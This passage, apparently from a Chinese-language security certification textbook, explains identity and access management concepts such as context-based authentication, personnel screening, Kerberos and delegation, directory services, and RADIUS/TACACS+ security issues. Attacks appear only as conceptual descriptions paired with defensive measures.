- 帮助防止由于简单密码系统而导致的账户接管
- 帮助防止因个人移动设备日益增加而导致的许多攻击
- 帮助防止因用户位置而导致的许多攻击

当用户请求访问资源时，基于上下文的系统可以考虑许多因素。这些属性结合在一起可以创建一套复杂的安全规则，帮助防止密码系统可能无法检测或阻止的漏洞。接下来的章节将介绍其中的一些属性。

## 时间

网络安全专业人员长期以来一直能够通过在用户账户配置文件中配置登录时间来完全阻止访问网络。然而，直到最近，他们还无法根据时间对单个资源进行访问限制。例如，你可能允许 `Joe` 在上午9 点到下午 5 点访问敏感的“销售”文件夹，但在其他时间拒绝他访问该文件夹。或者你可能配置系统，当 `Joe` 在特定时间之后访问资源时，他需要提供另一个密码或凭据（此过程称为**分级身份验证**），或者可能是一个发送到其电子邮件地址的文本代码，必须提供该代码才能允许访问。

## 位置

曾几何时，网络安全专业人员知道所有网络用户安全地在办公室里，并处于用所有可能的工具创建和防御的安全边界之后。现在情况已不再如此。用户现在会从家里、无线热点、酒店房间以及所有其他安全性较低的地方访问你的网络。当你设计身份验证时，可以考虑访问请求源的物理位置。这种场景的一个示例可能是：允许 `Alice` 随时从办公室访问“销售”文件夹，但在家里只能从 9 点到下午 5 点访问，且绝不能从其他地方访问。

身份验证系统还可以利用位置来识别在极短时间内从两个不同位置提出的身份验证和访问资源的请求，其中一个可能是伪造的。最后，这些系统有时可以对请求源所在地区的威胁级别进行实时评估。

## 频率

基于上下文的系统可以根据请求的频率来做出访问决策。因为快速发出的多次登录请求可能表明密码破解攻击，系统可以使用这些信息拒绝访问。它还可能表明是自动化进程或恶意软件（而非个人）在尝试执行此操作。

## 行为

身份验证系统可以随时间跟踪个人的行为，并利用这些信息来检测实体何时执行某些操作，虽然这些操作在实体的权利范围内，但与该实体的正常活动不同。这可能表明账户已被破解。

身份验证系统的真正力量在于你可以结合上述讨论的属性来创建非常细粒度的策略，例如：如果 `Gene` 在办公室并使用他的桌面设备，他可以在上午 9 点到下午 5 点访问“销售”文件夹；但如果在办公室使用智能手机，只能在上午 10 点到下午 3 点访问；而在办公室外整个9点到5点期间都无法访问。

主要的安全问题是规则创建的复杂性可能会导致实际上降低安全的错误。需要对系统有完全的理解，并为管理系统的任何人提供特殊培训。其他安全问题还包括隐私问题，例如用户对用于做出上下文决策的信息可能被误用的担忧。这些担忧通常可以通过有关基于上下文安全的强大性的培训来解决。

## 与身份相关的安全问题

在讨论身份时，最好记住身份并不总是人。大多数关于访问控制理论的讨论都围绕一个想要访问对象的主体展开。该主体可以是人，也可以是服务器、应用程序或服务。这些每一个实体都带来了各种安全问题。接下来的章节将介绍其中一些问题以及用于解决这些问题的一些缓解措施。

## 人员

我们经常在安全行业说，人是安全链中最薄弱的环节点，这可能是正确的。与设备不同，他们的行为是不可预测的。他们的知识水平参差不齐。他们对网络安全的了解差异很大。此外，坐在办公桌前的用户已经执行了黑客攻击过程中的两个步骤：发现和渗透。这并不意外，用户的设备是恶意人员攻击的首要目标。

`img/213874e5eb0747b147255c903d11b72f_423_0.png` 以下是产生额外安全问题的做法：

- 空闲账户保持激活
- 易猜密码
- 特权账户的凭据管理不善
- 共享账户的使用

接下来的章节描述了针对人员风险的措施。

## 入职筛选

人员筛选应在提供录用之前进行，可能包括犯罪记录、工作经历、背景调查、信用记录、驾驶记录、毒品检测、教育和执照、社会安全号码验证以及恐怖分子观察名单检查。每个组织应根据人员的水平确定其安全需求。职位描述应包含工作的职责以及任何要求的经验。如果必须维护或升级技能，职位描述应列出年度要求。年度参加安全意识培训和其他合规要求应作为劳动协议的一部分。

《公平信用报告法》允许犯罪检查。雇主可以查询大多数潜在员工过去七年的犯罪记录。如果申请人的年收入超过 75,000 美元，对犯罪记录没有时间限制。雇主需要搜索州和县级犯罪记录、性及暴力罪犯记录以及监狱记录。许多公司可以提供此类服务。

专业人员应确保在职位发布中明确说明任何形式的物质测试。

对于背景检查，会进行两类型的检查：工作背景和个人背景。工作背景检查核实就业历史。个人背景检查涉及联系申请人提供的个人，并就申请人的能力、技能和性格提问。

教育背景和许可验证通常非常容易完成。雇主可以向教育机构索成绩。对于任何许可或证书，颁发或认证机构可以验证所持有的许可或证书。

社会安全号码的验证和确认可以通过联系社会安全局来实现，以确保提供的社会安全信息准确。如果提供的社会安全号码被滥用（包括该号码属于已故或拘留场所的人员），社会安全局将通知你。

就像有提供犯罪记录检查的公司一样，公司最近也开始提供搜索联邦和国际可疑恐怖分子名单的服务。涉及国防、航空、技术和生物技术领域的组织应该考虑对所有申请人进行恐怖分子检查。

正如任何安全专业人员所知，申请人将访问的信息的敏感性应该是指导进行哪些检查的最决定因素。组织在入职前的申请人筛选过程中绝不应松懈。

## 雇佣协议与政策

人员招聘程序应包括签署所有适当的文件，包括政府要求的文件、无隐私预期声明和保密协议（`NDA`）。组织通常有人事手册和其他必须传达给员工的招聘信息。招聘过程应包括正式验证，确认员工已完成所有培训。此时会发放员工 `ID` 和密码。

此时还应签署行为准则、利益冲突和伦理协议。此外，应核实任何竞业协议，以确保员工不会离开组织加入竞争对手。应为员工提供有关定期绩效评估、薪酬和成就认可的指南。

## 定期审查

新的安全问题和威胁不断涌现。因此，安全专业人员应该审查所有的安全意识培训，并确保其更新以应对新的安全问题和威胁。此类审查应按定期安排。

## 适当的凭证管理


凭证管理的一些指南包括以下：

- 使用强密码。
- 自动生成复杂密码。
- 实现密码历史记录。
- 使用访问控制机制，包括访问的身份、内容、方式和时间。
- 实现审计。
- 为了数据完整性实现备份和恢复机制。
- 在凭证管理系统中实现冗余系统，以确保 24/7/365 访问。
- 实现凭证管理组策略或操作系统提供的其他机制。

## 创建责任制

责任制是组织对其用户所执行的行为负责的能力。为了确保用户对其行为负责，组织必须实施审计机制。

为了确保用户对其行为负责，组织可以实施以下组件的任何组合：


- **强身份识别：** 每个用户都应该有自己的账户，因为小组或角色账户无法追溯到单个个人。
- **监控：** 应该监控用户操作，包括登录、使用权限和其他操作。作为“无隐私预期声明”的一部分，应告诫用户所有操作都可以被监控。
- **审计日志：** 应根据组织安全策略维护并存储审计日志。管理员应定期查看这些日志。

## 维护安全的配置生命周期

组织应为创建、更改和删除用户建立正式流程。该过程被称为配置生命周期，包括用户审批、用户创建、用户创建标准和授权。用户应签署书面声明说明访问条件，包括用户责任。最后，应记录访问修改和删除程序。

用户配置策略应作为人力资源管理的一部分整合。人力资源政策应包括相关程序，在招聘或终止新人员时，人力资源部门正式请求创建或删除用户账户。

## 终端


台电脑、笔记本电脑、打印机和智能手机等终端占网络设备的最高比例。因此，它们是常见的目标。这些设备面临许多安全问题，将在后续章节讨论。

## 社会工程威胁

社会工程攻击发生在攻击者利用可信的语言和用户的轻信来获取用户凭据或其他机密信息。你应该理解的社会工程威胁包括网络钓鱼/钓鱼网站、窥视偷、身份盗窃和翻垃圾桶。

应对社会工程威胁的最佳反措施是提供用户安全意识培训。这种培训应该是强制性的且必须定期进行，因为社会工程技术在不断演变。

以下是最常见的社会工程威胁：

- **网络钓鱼/钓鱼网站（Phishing/pharming）：** 网络钓鱼是一种社会工程攻击，攻击者试图获取个人信息，包括信用卡信息和财务数据。此类攻击通常通过建立与合法网站非常相似的虚假网站来实现。用户在网站上输入数据（包括凭据），允许攻击者捕获任何输入的信息。鱼叉式网络钓鱼是通过了解目标的习惯和喜好针对特定目标进行的钓鱼攻击。由于必须收集信息，鱼叉式网络钓鱼攻击的实施时间比普通钓鱼攻击更长。
- **钓鱼网站（续）：** 钓鱼网站与网络钓鱼类似，但钓鱼网站实际上污染了计算机 `DNS` 缓存的内容，导致对合法网站的请求实际上路由到备站点。

警告用户不要点击电子邮件中嵌入的链接，即使信息看起来来自合法实体。用户在访问需要提供个人信息的网站时，还应检查地址栏，确保网站是正确的并且使用了 `SSL`（这通过 `URL` 地址开头的 `HTTPS` 标识出来）。

- **窥视偷（Shoulder surfing）：** 窥视偷发生在攻击者观察用户输入登录或其他机密数据时。鼓励用户注意谁在观察他们的操作。实施隐私屏有助于确保数据输入不被记录。
- **身份盗窃（Identity theft）：** 身份盗窃发生在某人获取个人信息（包括驾执照号码、银行账户号码和社会安全号码）并使用这些信息冒充被盗信息个人的身份时。在冒充身份后，攻击可以向任何方向进行。在大多数情况下，攻击者以用户的名义开设账户。攻击者还可以访问用户的有效账户。
- **翻垃圾桶（Dumpster diving）：** 翻垃圾桶发生在攻击者检查垃圾内容以获取机密信息。这包括人员信息、账户登录信息、网络拓扑和组织财务数据。组织应实施粉碎包含此类信息的文件的政策。

## 恶意软件

恶意软件，也称为 `malware`，是任何旨在执行恶意行为的软件。

以下是你理解的四类恶意软件：

## 核心主题

- **病毒 (Virus)**：任何附着在另一个应用程序上进行复制或传播的恶意软件
- **蠕虫 (Worm)**：任何能够自我复制的恶意软件，这意味着它不需要其他应用程序或人工交互即可传播
- **木马 (Trojan horse)**：任何伪装成所需应用程序同时执行恶意行为的恶意软件
- **间谍软件 (Spyware)**：任何收集用户私有数据（包括浏览历史或键盘输入）的恶意软件

防御恶意软件的最佳方法是实施防病毒和反恶意软件软件。大多数供应商会将这两类软件封装在同一个包中。保持防病毒和反恶意软件软件的更新至关重要，这包括确保安装了最新的病毒和恶意软件定义。

## 异常终端 (Rogue Endpoints)

仅仅跟进你管理的设备是不够的，你还必须关注网络中存在异常设备的可能性。异常设备是指那些存在但你并不控制或管理的设备。在某些情况下，这些设备是无害的，例如将儿子的笔记本电脑带到公司并接入网络。在其他情况下，异常终端是由恶意分子放置的。

## 异常接入点 (Rogue Access Points)

异常接入点是你无法控制和管理的接入点（`AP`）。它们分为两种：连接到你有线基础设施的和未连接的。连接到有线网络的接入点对你的有线和无线网络构成了威胁。它们可能是由你的用户在你不知情的情况下放置的，也可能是黑客故意放置在那里以获取有线网络的权限。无论何种情况，它们都允许访问你的有线网络。无线入侵防御系统（`WIPS`）设备可定位异常接入点并向管理员报警其存在。

## 服务器 (Servers)

虽然服务器的设备数量少于终端，但它们通常包含关键和敏感资产，并为网络执行关键任务服务。因此，这些设备受到了恶意分子的重点关注。以下是影响任何设备的、且最常见针对服务器的一些问题：

- **DoS/DDoS**：拒绝服务（`DoS`）攻击发生在攻击者向设备发送大量请求，以导致目标设备性能下降时。一些流行的 `DoS` 攻击包括 `SYN` 洪水和水滴攻击（teardrop attacks）。

分布式拒绝服务（`DDoS`）攻击是从多个攻击位置实施的 `DoS` 攻击。易受设备被感染了名为“僵尸”的软件代理。这些易受设备变成了僵尸网络，然后执行攻击。由于攻击的分布式特性，要识别所有攻击僵尸几乎是不可能的。僵尸网络还帮助隐藏了攻击的原始源头。

- **缓冲区溢出 (Buffer overflow)**：缓冲区是用于存储信息的内存区域。当提交给应用程序的数据量大于缓冲区能够处理的范围时，就会发生缓冲区溢出。通常，这种攻击的发生由于应用程序或操作系统代码编写得不当，并可能导致恶意代码的注入。

为了防止此类问题，组织应确保所有操作系统和应用程序都更新到最新的服务包和补丁。此外，程序员应妥善地测试所有应用程序，以检查是否存在溢出情况。最后，程序员应该使用输入验证，以确保提交的数据不会对缓冲区而言过大。

- **移动代码 (Mobile code)**：移动代码是指任何跨网络传输并在本地系统执行的软件。移动代码的示例包括 `Java applet`、`JavaScript` 代码和 `ActiveX` 控制。移动代码包含了安全控制，`Java` 实现了沙箱，而 `ActiveX` 使用数字签名。恶意移动代码可用于绕过访问控制。

组织应确保用户理解与恶意移动代码相关的安全忧虑。用户应仅从合法的网站和供应商处下载移动代码。

- **辐射 (Emanations)**：辐射是电子设备发出的电磁信号。攻击者可以针对特定的设备或传输介质，在无需物理接触设备或介质的情况下监听通信。

由美国和英国起的 `TEMPEST` 项目研究限制辐射的方法并对使用的技术进行标准化。任何符合 `TEMPEST` 标准的设备都使用屏蔽材料抑制辐射。符合 `TEMPEST` 标准的设备通常实现一个外部屏障或涂层，称为法第里笼或法第里屏蔽。`TEMPEST` 设备通常用于政府、军事和执法部门。

- **后门/陷阱门 (Backdoor/trapdoor)**：后门、陷阱是在许多设备或应用程序中实现的机制，允许使用后门的用户获得对设备或应用程序的无限访问权限。特权后门账户是目前最常用的后门类型。

大多数老牌供应商不再发布带有此类安全问题的设备或应用程序。你应该意识到你所管理的设备或应用程序中任何已知的后门。

## 服务 (Services)

运行在服务器和工作站上的服务在安全系统中具有身份。它们拥有内置的称为系统账户或服务的账户，并在运行时像用户一样登录。

它们还拥有权限和权利，这就是为什么这些账户会出现安全问题。这些账户通常拥有的权限比它们执行服务实际需要的要得多。安全问题在于，如果恶意分子或进程获取了服务的控制权，其权限将是巨大的。

因此，将最小权限原则应用到这些服务至关重要，即识别服务所需的权利并将服务限制仅限这些权利。常见的做法是为服务创建一个仅拥有所需权限的用户账户，并设置服务使用该账户登录。你可以通过访问服务属性中的“登录”（`Log On`）选项卡来实现此，如图 11-1 所示。在示例中，远程桌面服务被设置为以网络服务（`Network Service`）账户登录。

虽然这是一个很好的方法，但它涉及一些复杂性。首先是账户密码管理的困难。如果系统所在的域策略要求在 30 天后更改密码，而你没有更改服务账户密码，服务将会停止。

另一个复杂性涉及域账户的使用。虽然将服务账户设置为域账户可以消除在每个运行服务的服务器上为服务创建账户的需求，但它引入了更大的安全风险。如果该域服务账户被破解，它将提供访问运行该服务的所有服务器的权限。

幸运的是，从 `Windows Server 2008 R2` 开始，微软引入了托管服务账户的概念。与必须手动重置密码的普通域账户不同，这些账户的网络密码会自动重置。`Windows Server 2012 R2` 引入了组托管账户的概念，允许服务器共享同一个托管服务账户；这在 `Server 2008 R2` 中是不行的。账户密码由 `Windows Server 2012`（及所有后续版本）域控制器管理，并可以被 `Active Directory` 环境中的多个 `Windows` 系统检索。

许多组织采用了使用第三方账户管理系统的方法，以简化这一过程。

## 角色 (Roles)

基于角色的访问控制（`RBAC`）在网络中常用，以简化为新用户分配执行工作角色所需的权限的过程。在这种安排下，用户按工作角色组织成安全组，安全组被授予执行该工作所需的权利和权限。这一过程如图 11-2 所示。角色被实现为拥有所需权利和权限的安全组，这些权限会被任何安全组或角色成员继承。

然而，这并不是一个完美的解决方案，并且带有几个安全问题。首先，`RBAC` 的成功取决于支持它的组织策略。糟糕的策略可能导致不必要的角色的泛滥，为管理用户访问的人员带来管理上的噩梦。这可能导致错误，从而反而削弱而非增强了访问安全性。

另一个相关问题是，管理用户访问的人员可能对该流程的理解不完全，这可能导致安全性大幅下降。为了确保这些人员接受适当培训，组织可能需要付出额外成本。

使 `RBAC` 成功的关键在于与策略正确对齐，以及对实施和维护系统的人进行适当培训。

### 注意
当用户被解雇或辞职时，可能会产生安全问题。在这两种情况下，都应该移除所有访问。应定期进行账户审查，以捕获任何仍然活跃的旧账户。

## 应用

随着许多组织转向软件即服务（`SaaS`）解决方案，使用身份管理应用程序访问已变得更具挑战性。许多 `SaaS` 提供商尚未开发出所需的复杂功能，将其平台与存在企业防火墙后的身份服务进行集成。在某些情况下，客户使用这些提供者的专有工具。当企业与多个 `SaaS` 提供商打交道时，这些工具可能会引入混淆和错误。一种解决方案是使用第三方工具，这些工具可以连接许多不同类型的 `SaaS` 应用程序，使身份管理变得更简单、更不容易混乱且不易出错。

## IAM 软件

第三方身份和访问管理（`IAM`）软件的创建是为了补充你的目录服务可能提供的工具。这些工具通常增强了在复杂情况（如联邦和单点登录环境，将在本文稍后部分介绍）中管理身份的能力。它们可能作为身份即服务（`IDaaS`）解决方案交付。

第三方 `IAM` 解决方案的安全问题包括：

- 许多部署为用户授予了过量的访问权限，这可能导致未经授权的泄露、欺诈、意外访问和身份盗用。
- 针对身份服务或网络连接的 `DDoS` 攻击可能会危及可用性或降低性能。
- 与任何其他通过身份管理访问的系统一样，所有基于身份的攻击都会发生，例如暴力破解攻击、`Cookie` 重放攻击、权限提升和身份欺骗。

解决这些问题的方案是在涉及解决方案的安全架构和提供商的日常实践时对提供商进行仔细审查。

## 作为身份的应用

在某些情况下，应用程序充当身份。使用一种被称为“委托（delegation）”的过程，应用程序接收用户的请求并代表用户检索某些内容。最常见的例子是用户与前端服务器上的 `Web` 应用程序交互，然后该程序与数据库服务器交互，并作为用户的委托执行此类访问。这种委托能力对于许多分布式应用程序至关重要，对于这些应用程序，必须对授权链中的每个应用程序、数据库或服务按顺序进行一系列访问控制检查。

另一个委托的例子是 `Active Directory` 中 `Kerberos` 选使用的委托过程。要理解这个过程，你必须理解 `Kerberos` 的操作。`Kerberos` 是一种使用客户端/服务器模型的身份验证协议，由 `MIT` 的 `Project Athena` 开发。它是 `Windows Server` 最新版本的默认身份验证模型，也用于 `Apple`、`Sun` 和 `Linux` 操作系统。`Kerberos` 是一种使用对称密钥加密的单点登录系统。`Kerberos` 提供了机性和完整性。

`Kerberos` 假设消息传递、布线和客户端计算机是不安全且易于访问的。在涉及包含验证器的消息的 `Kerberos` 交换中，验证器包含客户端 `ID` 和时间戳。由于 `Kerberos` 票在一段时间内有效，时间戳确保了请求的有效性。

在 `Kerberos` 环境中，密钥分布中心（`KDC`）是所有用户和服务秘密密钥的存储库。身份验证以及后续访问资源的流程如下：

1. 客户端向身份验证服务器（`AS`）发送请求，`AS` 可能是 `KDC`。
2. `AS` 将客户端凭据转发给 `KDC`。`KDC` 验证网络上其他实体的客户端，并使用会话密钥促进通信。`KDC` 为客户端或主体（即用户、网络服务和软件）提供安全性。每个主体必须在 `KDC` 上有一个账户。
3. `KDC` 向主体颁发票据授予票（`TGT`）。
4. 当主体需要连接到任何实体时，将 `TGT` 发送到票据授予服务（`TGS`）。
5. `TGS` 然后向主体传输票据和会话密钥。由单个 `KDC` 负责的主集被称为领域（realm）。

有一个需要避免的特殊设置，就是使用无限制委托（unconstrained delegation）。当服务器以此种方式设置时，域控制器会将用户的 `TGT` 副本放入服务票据中。当票据提供给服务器进行访问时，服务器会将 `TGT` 放入本地安全权威子系统服务（`LSASS`）中供以后使用。应用程序服务器现在可以无限制地冒充该用户！

## OAuth

开放授权（`OAuth`）是一种授权标准，允许用户在不使用凭据的情况下将私人资源从一个网站共享到另一个网站。它有时被描述为 `Web` 的代泊钥匙。代泊钥匙只给泊员停车的能力而不能访问后备箱，而 `OAuth` 使用令牌（tokens）允许受限访问。这些令牌由授权服务器发放。尽管具体的步骤取决于具体的实现，图 11-3 显示了通用过程。

当一个 `Web` 应用程序使用另一个 `Web` 应用程序的 `API` 时，`OAuth` 是授权的好选择。一个例子是集成 `Facebook` 的地理定位应用。`OAuth` 为地理定位应用提供了一种安全的方法获取 `Facebook` 的访问令牌，而无需向自己的应用程序暴露 `Facebook` 密码。

## OpenSSL

`OpenSSL` 是 `SSL` 和 `TLS` 的开源实现，可用于确保机器及其运行的代码的身份。`OpenSSL` 以软件函数库的形式实现。安装后，它暴露了可以创建数字证书和关联密钥对的命令。

## 与身份库相关的安全问题

任何身份管理系统的核心都是身份库。它可以是目录服务，例如 `Active Directory` 或 `IBM Directory Server`。`DNS` 也被认为是目录服务，因为它包含了定位身份的信息。`RADIUS` 和 `TACACS+` 等 `AAA` 服务包含身份。接下来的章节将讨论这些服务以及与其相关的安全问题。

## 目录服务

目录服务存储、组织并提供对计算机操作系统目录中信息的访问。通过目录服务，用户可以使用资源名称而非其 `IP` 地址或 `MAC` 地址来访问资源。大多数企业实现一个内部目录服务服务器来处理任何内部请求。该内部服务器与公用网络上的根服务器或受防火墙或其他安全设备保护的外部面向服务器通信，以获取不在本地企业网络上的任何资源的信息。`LDAP`、`Active Directory` 和 `DNS` 是目录服务的要示例。

## LDAP

典型的目录包含一个包含用户、组、系统、服务器、客户端工作站等的层次结构。由于目录服务包含有关用户和其他网络实体的数据，它可以被许多需要访问这些信息的应用程序使用。常见的目录服务标准是轻量级目录访问协议（`LDAP`），它基于早期的标准 `X.500`。

`X.500` 使用目录访问协议 (`DAP`)。在 `X.500` 中，特异名称 (`DN`) 提供了条目所在于 `X.500` 数据库的完整路径。`X.500` 中的相对特异名称 (`RDN`) 是不包含完整路径的条目名称。

`LDAP` 比 `X.500` 更简单。`LDAP` 支持 `DN` 和 `RDN`，但它包含了更多属性，例如通用名称 (`CN`)、域组件 (`DC`) 和组织单元 (`OU`) 属性。`LDAP` 采用客户端/服务器架构，使用 `TCP` 端口 `389` 进行通信。如果需要高级别的安全功能，基于 `SSL` 的 `LDAP` 则通过 `TCP` 端口 `636` 进行通信。

## 活动目录 (AD)

微软对 `LDAP` 的实现是 `Active Directory` (`AD`)，它将目录组织成森林 (`forests`) 和树 (`trees`)。`AD` 工具用于管理和组织组织中的所有内容，包括用户和设备。这是实现安全的地方，允许用户进行一次身份验证，然后通过使用票据系统，允许用户执行所有操作并访问其被授予权限的所有资源，而无需再次身份验证。

`AD` 是单点登录 (`SSO`) 系统的另一个示例。它使用了与 `Unix`、`Linux` 和 `Kerberos` 相同的身份验证和授权系统。该系统对用户进行一次身份验证，然后通过使用票据系统，允许用户执行所有操作并访问其被授予权限的所有资源，而无需再次身份验证。

图 11-4 显示了该过程的步骤。用户向域控制器进行身份验证，域控制器还承担着其他几个角色。首先，它是密钥分发中心 (`KDC`)，运行授权服务 (`AS`)，该服务决定用户是否有权或权限访问网络中的远程服务或资源。

### 图 11-4. Kerberos 身份认证



回顾 `Kerberos` 过程，在用户通过身份验证后（当她首次登录网络时），她将获得一个票据授予票 (`TGT`)。这用于稍后请求会话票据，访问资源需要这些会话票据。在她尝试访问服务或资源的任何时候，她都会被重定向到运行在 `KDC` 上的 `AS`。在提交她的 `TGT` 后，她将获得用于该资源的会话票或服务票。用户将由 `KDC` 签名的服务票据提交给资源服务器以进行访问。由于资源服务器信任 `KDC`，用户被授予访问权限。

实施 `Kerberos` 的某些优势包括：

## 关键主题

- 用户密码不需要在网络上传输。
- 客户端和服务器相互进行身份验证。
- 在在服务器和客户端之间传递的票据带有时间戳，并包含寿命信息。
- `Kerberos` 协议使用开放的网络标准，不受限于专有代码或身份验证机制。

实施 `Kerberos` 的某些缺点包括：


- 如果要求提供容错能力，则需要 `KDC` 冗余。`KDC` 是单点故障。
- `KDC` 必须具有可扩展性，以确保系统性能不会下降。
- 客户端上的会话密钥可能被破解。
- `Kerberos` 流量需要加密以保护网络上的信息。
- 所有参与 `Kerberos` 过程的系统必须同步时钟。
- `Kerberos` 系统容易受到密码猜解攻击。

## SESAME

多供应商环境应用程序安全欧洲系统 (`SESAME`) 项目扩展了 `Kerberos` 的功能以修复其弱点。`SESAME` 使用对称和非对称加密来保护交换的数据。`SESAME` 在每个主机上使用受信任的身份验证服务器。

`SESAME` 在票据内部使用特权属性证书 (`PAC`)。它包含两个证书：一个用于身份验证，另一个用于定义访问权限。受信任的身份验证服务器称为特权属性服务器 (`PAS`)，它的角色与 `Kerberos` 中的 `KDC` 类似。`SESAME` 可以集成到 `Kerberos` 系统中。

## DNS

域名系统 (`DNS`) 为连接到互联网或私有网络的计算机、服务和任何资源提供了一种分层命名系统。您应该启用域名系统安全扩展 (`DNSSEC`)，以确保在 `DNS` 服务器和客户端之间开始传输 `DNS` 信息之前，`DNS` 服务器已通过身份验证。事务签名 (`TSIG`) 是一种与 `DNSSEC` 一起使用的加密机制，允许 `DNS` 服务器在客户端 `IP` 地址或主机名发生变化时自动更新客户端资源记录。`TSIG` 记录用于验证 `DNS` 客户端。

起始授权 (`SOA`) 包含有关 `DNS` 区域权威服务器的信息。`DNS` 记录的生存时间 (`TTL`) 决定了 `DNS` 记录在需要刷新之前可以存在多久。当记录的 `TTL` 过期时，该记录将从 `DNS` 缓存中删除。污染 `DNS` 缓存涉及向 `DNS` 区域添加虚假记录。如果您使用较长的 `TTL`，读取资源记录的频率越低，被中毒的可能性越小。

让我们来看与 `DNS` 相关的安全问题。IT 管理员安装了新的 `DNS` 服务器，托管公司的邮件交换器 (`MX`) 记录并解析 `Web` 服务器的公共地址。为了确保 `DNS` 服务器之间的传输安全，管理员仅使用 `ACL`。然而，次级 `DNS` 服务器仍然容易受到 `IP` 欺骗攻击。

另一个例子是安全团队发现组织外部的人员通过查询公司获取了有关内部组织的敏感信息。

## TACACS 与 RADIUS

`802.1x` 是一种定义了基于端口的身份验证框架的标准。它使用以下三个组件：


- **supplicant**：请求访问的用户或设备
- **authenticator**：supplicant 尝试访问设备
- **authentication server**：执行身份验证的集中设备

`authenticator` 的角色可以由各种网络接入设备执行，包括远程访问服务器、交换机和无线接入点。身份服务器的角色可以由拨号用户认证 (`RADIUS`) 或终端访问控制系统 (`TACACS+`) 服务器执行。`authenticator` 向 `supplicant` 请求凭据，并将其转发到身份服务器进行验证。验证成功后通知 `authenticator`。此过程如图 11-5 所示。

### 图 11-5. 802.1x



虽然 `RADIUS` 和 `TACACS+` 执行相同的角色，但它们具有不同的特性。在选择方法时，需要考虑这些差异。请记住 `RADIUS` 是一个标准，而 `TACACS+` 是私专的。表 11-2 对它们进行了比较。

> **关键主题**

### 表 11-2. RADIUS 与 TACACS+

| 传输协议 | RADIUS | TACACS+ |
|---|---|---|
| | 使用 UDP，可能导致响应更快 | 使用 TCP，提供更多故障排除信息 |
| 机密性 | 仅加密访问请求中的密码 | 加密整个数据包，但保留标准的 TACACS+ 头部用于故障排除 |
| 身份验证和授权 | 身份验证和授权 | 分离身份验证、授权和认证过程 |
| 支持的第 3 层协议 | 不支持以下任何协议：Apple Remote Access、NetBIOS Frame、X.25 PAD | 支持所有协议 |
| 设备 | 不支持路由器和交换机的命令安全 | 支持路由器和交换机的命令安全 |
| 流量 | 产生流量较少 | 产生更多流量

`RADIUS` 的安全问题包括：

- `RADIUS` 客户端发送的 `Access-Request` 消息未经过身份验证。在所有 `Access-Request` 消息中使用 `Message-Authenticator` 属性或使用身份验证计数和锁定机制。
- `RADIUS` 共享密钥可能由于配置不当和大小限制而较弱。选择长度至少为 22 个字符且由随机的大写字母、小写字母、数字和标点符号组成的共享密钥。
- 敏感属性使用 `RADIUS` 隐藏机制加密。这不安全。使用 Internet协议安全 (`IPsec`) 结合封装安全负载 (`ESP`) 以及如三重数据加密标准 (`3DES`) 等加密算法为整个网络数据提供机密性。
- 糟糕的请求认证器（Request Authenticator）值可被用于解密加密属性。如果请求认证器的随机性不足，它就可以被预测，并且更可能发生重复。请求认证器生成器应当具有密码学质量。

`TACACS+` 的安全问题包括以下内容：


- 如果运行 `TACACS+` 应用的服务器被破解，攻击者可能会访问你组织的整个用户/密码数据库。这种访问权限应该被严格控制。
- 缺乏完整性检查允许能够访问线路的攻击者翻转数据包中的大多数位，而不会检测到更改。
- `TACACS+` 容易受到重放攻击，因为它使用 `TCP` 且不提供防止重放的安全防护。攻击者可以开启新的 `TCP` 连接来重放录录的 `TACACS+` 会话。
- 当两个不同的数据包恰好具有相同的会话 `ID` 和相同的序列号，就会发生强制会话 `ID` 冲突。这时它们都将受到简单频率分析攻击的威胁。
- 如果随机选择，会话 `ID` 可能太小而无法保持唯一。如果你观察大约 100,000 个 `TACACS+` 会话，可能会看到两个具有相同会话 `ID` 的不同会话。
- 由于缺乏填充，变长数据字段的长度通常可以从数据包的大小确定。

虽然这些缺陷许多是协议固有的，但你可以采取一些通用措施来减少或消除它们：

- 尽可能应用数据包过滤，以确保服务器仅从网络内部访问——并且最好只允许客户端的 `IP` 地址访问。
- 选择强力加密密钥。
- 避免以 `root` 身份运行服务。

## 与联合和单点登录相关的安全问题

为了提高用户的生产力，已经开发了多种解决方案，允许用户对所有功能使用单一密码，并使用这些相同的凭据访问外部组织的资源。这些概念被称为单点登录（`SSO`）和基于联合的身份验证。接下来的章节将介绍这些概念及其安全问题。

## 身份传播（Identity Propagation）

身份传播是将用户或设备的认证身份信息从多层系统的一个部分传递或共享到另一个部分。在大多数情况下，系统中的每个组件都执行自己的认证，而身份传播允许这种操作无缝发生。执行身份传播有多种方法。某些系统（如微软的 `Active Directory`）使用专有方法和票（tickets）来执行身份传播。

